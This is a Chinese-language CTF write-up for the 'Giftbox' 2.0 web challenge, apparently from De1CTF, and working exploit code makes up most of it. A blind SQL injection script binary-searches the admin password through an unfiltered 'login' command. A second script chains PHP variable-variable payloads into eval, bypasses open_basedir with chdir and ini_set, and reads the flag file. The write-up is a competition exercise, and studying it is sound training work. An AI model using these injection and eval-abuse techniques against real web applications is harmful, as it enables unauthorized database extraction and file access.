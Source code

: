 [中文](./readme_zh.md) [English](./readme.md)

[Docker](./docker) [Exp](./exp.py)

# Giftbox WriteUp

以前 1.0 版本 writeup：

[impakho/ciscn2019_giftbox](https://github.com/impakho/ciscn2019_giftbox)

本题是 2.0 版本。

![1](./img/1.png)

题目页面类似一个网页沙盒。

![2](./img/2.png)

在源代码 `main.js` 里找到一个提示，提供了 `otp` 的 `python库` 和 `totp` 的参数，方便写脚本。

![3](./img/3.png)

同样是 `main.js` 里，可以找到用来生成 `totp` 的 `key` 。

出题人注：服务端时间与客户端时间相差大于 `15秒` ，需要先计算正确的 `totp` 才能调用 `shell.php` 。

![4](./img/4.png)

查看 `usage.md` 可以看到命令用法， `login` 存在注入，没有过滤，用户名和密码长度限制 `100`。

爆破密码脚本：

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

length = 0
left = 0x0
right = 0xff
while True:
    mid = int((right - left) / 2 + left)
    if mid == left:
        length = mid
        break
    username = "'/**/or/**/if(length((select/**/password/**/from/**/users/**/limit/**/1))>=%d,1,0)#" % mid
    password = "b"
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    res = s.get(payload).text
    if 'incorrect' in res:
        left = mid
    else:
        right = mid
print(length)

real_password = ''
for i in range(1, length+1):
    left = 0x20
    right = 0x7e
    while True:
        mid = int((right - left) / 2 + left)
        if mid == left:
            real_password += chr(mid)
            break
        username = "'/**/or/**/if(ascii(substr((select/**/password/**/from/**/users/**/limit/**/1),%d,1))>=%d,1,0)#" % (i, mid)
        password = "b"
        payload = 'login %s %s' % (username, password)
        payload = urllib.quote(payload)
        payload = url % (payload, totp.now())
        res = s.get(payload).text
        if 'incorrect' in res:
            left = mid
        else:
            right = mid
    print(real_password)
    if len(real_password) < i:
        print('No.%d char not in range' % i)
        break
```

![5](./img/5.png)

得到密码：`hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}`

![6](./img/6.png)

密码里提示有个隐藏命令 `sh0w_hiiintttt_23333` ，可以得到提示 `eval` 在 `launch` 的时候被调用。

`launch` 前需要先用 `targeting` 设置，不过对输入有限制，这里可以 `fuzz` 一下，得知 `code` 限制 `a-zA-Z0-9` ， `position` 限制 `a-zA-Z0-9})$({_+-,.` ，而且两者的长度也有限制。

这里需要用 `php可变变量` 构造和拼接 `payload` 。

构造用来 `getflag` 的 `payload` ，绕过 `open_basedir` 的限制，写个脚本就能 `getflag` 。

`getflag` 脚本：

```
import requests
import urllib
import string
import pyotp

url = 'http://127.0.0.1/shell.php?a=%s&totp=%s'
totp = pyotp.TOTP("GAXG24JTMZXGKZBU", digits=8, interval=5)
s = requests.session()

def login(password):
    username = 'admin'
    payload = 'login %s %s' % (username, password)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def destruct():
    payload = 'destruct'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def targeting(code, position):
    payload = 'targeting %s %s' % (code, position)
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    s.get(payload)

def launch():
    payload = 'launch'
    payload = urllib.quote(payload)
    payload = url % (payload, totp.now())
    return s.get(payload).text

login('hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}')
destruct()
targeting('a','chr')
targeting('b','{$a(46)}')
targeting('c','{$b}{$b}')
targeting('d','{$a(47)}')
targeting('e','js')
targeting('f','open_basedir')
targeting('g','chdir')
targeting('h','ini_set')
targeting('i','file_get_')
targeting('j','{$i}contents')
targeting('k','{$g($e)}')
targeting('l','{$h($f,$c)}')
targeting('m','{$g($c)}')
targeting('n','{$h($f,$d)}')
targeting('o','{$d}flag')
targeting('p','{$j($o)}')
targeting('q','printf')
targeting('r','{$q($p)}')
print(launch())
```

![7](./img/7.png)

Flag：`de1ctf{h3r3_y0uuur_g1fttt_0uT_0f_b0o0o0o0o0xx}`
